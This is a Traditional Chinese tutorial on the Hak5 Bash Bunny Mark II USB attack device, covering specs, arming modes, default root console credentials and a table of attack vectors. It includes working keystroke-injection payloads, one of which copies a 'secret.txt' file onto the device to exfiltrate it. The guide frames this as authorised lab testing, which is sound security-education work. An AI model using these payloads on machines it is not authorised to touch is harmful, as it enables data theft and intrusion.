

# Bash Bunny Mark II — 完整指南

> **一句話定位**：Bash Bunny Mark II 是 USB Rubber Ducky 的「全家桶」——同一支 USB 插進去，它同時可以是鍵盤、網路卡、序列埠和隨身碟，還能跑完整 Linux 工具。一顆四核 ARM 心臟配上 8GB 桌面級 SSD，插上後 7 秒完成滲透。

如果 USB Rubber Ducky 是專才，那 Bash Bunny 就是**插進 USB 的瑞士刀**。它同時模擬*多種*受信任的裝置類型 — 這很重要，因為一台永遠不會讓可疑「鍵盤」靠近網路的機器，會樂意把 DHCP 租約交給一個「USB 乙太網路轉接器」，並把 root shell 交給一個「序列主控台」。

Mark II 用四核 CPU、桌面級 SSD、加倍記憶體，以及用於遠端觸發與地理圍欄的 Bluetooth LE 升級了原版。它是實體社交工程任務的主力。

> **⚠️ 僅限授權測試。** 對你不擁有的機器發動多向量攻擊是違法的。在自己的實驗室或取得書面許可後進行。

---

## 規格一覽

| 項目 | 規格 |
|---|---|
| CPU | 四核 ARM Cortex-A7 @ 最高 1.3 GHz |
| 儲存 | 8 GB NAND SSD（桌面級，快速） |
| 擴充 | MicroSD XC（大規模外洩最高 2 TB） |
| 無線 | Bluetooth LE（遠端觸發、地理圍欄） |
| 攻擊介面 | HID 鍵盤 + USB 乙太網路 + 序列 + USB 儲存（同時） |
| OS | Debian Linux 附 root shell（預載 nmap、responder、impacket、metasploit） |
| 開關 | 3 段式模式選擇器 |
| 指示燈 | 1× RGB LED |
| 主控台 | 專屬序列主控台（root 終端機）+ Cloud C² |
| 官方文件 | https://docs.hak5.org/bash-bunny |

## 3 段式開關

位置 3（最靠近 USB 插頭）是 **arming 模式** — Bunny 以隨身碟 + 序列主控台的形式出現，讓你能載入 payload。位置 1 和 2 會自動執行存放在各自資料夾中的 payload。

```
USB plug ── switch positions ──>
   position 1: auto-run /payloads/switch1/
   position 2: auto-run /payloads/switch2/
   position 3: ARMING MODE (flash drive + serial)
```



---

## 快速入門 — 第一個 payload

### 步驟 1 — Arm 你的 Bunny
把開關撥到**位置 3**，插進你的電腦。會出現兩樣東西：一個**隨身碟**（payload 區域）和一個**序列主控台**。

### 步驟 2 — 丟入 payload
瀏覽磁碟，把你的腳本放在：

```
/payloads/switch1/payload.txt
```

最簡單的「證明它能用」的 Windows 目標 payload：

```bash
LED R                # red = running
ATTACKMODE HID STORAGE
DELAY 2000
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 800
STRING echo pwned by Bash Bunny
ENTER
LED G                # green = done
```

> Bash Bunny 的 payload 是 **Bash** 腳本（這就是名字裡的「Bash」），使用 Hak5 的 `ATTACKMODE`、`LED` 與輔助指令。你可以把純 Bash（執行 `nmap`、複製檔案）與 DuckyScript 風格的 HID 注入混在一起。

### 步驟 3 — 部署
1. 退出，撥到**位置 1**，拔掉。
2. 插進目標（你的實驗室機器）。看 LED 先變紅，再變綠。
3. `cmd` 開啟並印出 `pwned by Bash Bunny`。

### 步驟 4 — 序列主控台（arming 模式）
撥到位置 3，連接序列主控台，取得 root shell 來管理檔案與 payload：

```text
Username: root
Password: hak5bunny
# ls /root/loot/
```

---

## 多向量攻擊 — 為什麼它很強大

一支 Bash Bunny 就能用一條線完成過去需要好幾支工具的事：

| 攻擊向量 | Bunny 怎麼做到 |
|---|---|
| 按鍵注入 | HID 模式把按鍵打進目標 |
| 網路存取 | **USB 乙太網路**模式 — 目標給你一個 IP；你現在就*在*網路上 |
| 資料外洩 | 切到**儲存**並複製檔案；或透過 USB-乙太網路連結推出去 |
| 序列 | 模擬序列裝置以觸及嵌入式/主控台機器 |
| 即時工具 | 完整 Debian：`nmap`、`responder`、`impacket`、`metasploit` 直接在裝置上 |
| 藍牙觸發 | 透過 BLE 遠端觸發或地理圍欄一個 payload |

**範例 — 抓一個檔案並外洩它：**

```bash
LED R
ATTACKMODE HID STORAGE
DELAY 2000
GUI r
DELAY 500
STRING powershell -c "copy C:\Users\Public\secret.txt X:\"
ENTER
DELAY 3000
LED G
```

這會打出一個 shell 指令，把檔案複製到 Bunny 自己的儲存磁碟，完成後變綠。（在你自己的機器上用你自己的檔案練習！）

---

## 進階

| 能力 | 怎麼做 |
|---|---|
| Payload 切換 | 2 個自動執行開關位置 + arming = 不用編輯就能執行不同 payload |
| 遠端/地理圍欄 | BLE：當你物理上靠近時觸發 payload，或離開某區域時自我銷毀 |
| Root Linux shell | 完整 Debian 附滲透測試工具；直接進入 `nmap`/`metasploit` |
| Cloud C² 管理 | 透過 Hak5 Cloud C² 遠端管理 payload/裝置 |
| 大規模外洩 | 2 TB MicroSD 用於複製數 GB 的 loot |
| `GET_SWITCH_POSITION` | Payload 可以讀取自己在哪個開關位置並分支 |

---

## 疑難排解

| 症狀 | 原因 | 修正 |
|---|---|---|
| 位置 3 沒有隨身碟 | 開關沒有完全在 arming 位置 | 把開關完全推到位置 3；拔掉再重插 |
| LED 閃紅燈 | Payload 錯誤 | 接上序列主控台，執行 payload，讀取錯誤 |
| 按鍵錯誤 / 沒打字 | 配置或缺少 DELAY | 加上 `LED` + `DELAY`，並鎖定正確的鍵盤配置 |
| 只有 HID 能用，沒有乙太網路 | ATTACKMODE 沒有包含 ETHERNET | 在 payload 中使用 `ATTACKMODE HID ETHERNET` |
| 連不上序列 | 驅動程式/鮑率錯誤 | 使用 Hak5 USB 線與文件記載的序列設定（見產品文件） |

---

## 相關資源

- [USB Rubber Ducky](/hak5/products/usb-rubber-ducky/) — 純按鍵注入，DuckyScript 基礎
- [Key Croc](/hak5/products/key-croc/) — 鍵盤側錄 + 直譯式 DuckyScript
- [Packet Squirrel Mark II](/hak5/products/packet-squirrel-mark-ii/) — 乙太網路端的操控
- [韌體與下載](/hak5/firmware-downloads/) — Bash Bunny payload 倉庫與韌體
- [疑難排解索引](/hak5/troubleshooting-index/)
- [Hak5 總覽](/hak5/)